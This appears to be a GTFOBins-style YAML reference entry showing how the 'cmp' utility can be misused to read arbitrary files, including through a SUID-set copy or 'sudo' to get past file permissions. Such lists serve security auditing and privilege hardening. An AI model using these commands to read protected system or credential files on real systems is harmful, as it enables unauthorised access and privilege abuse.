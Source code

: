 functions:
  file-read:
    - code: |
        LFILE=file_to_read
        cmp $LFILE /dev/zero -b -l
  suid:
    - code: |
        LFILE=file_to_read
        ./cmp $LFILE /dev/zero -b -l
  sudo:
    - code: |
        LFILE=file_to_read
        sudo cmp $LFILE /dev/zero -b -l
---
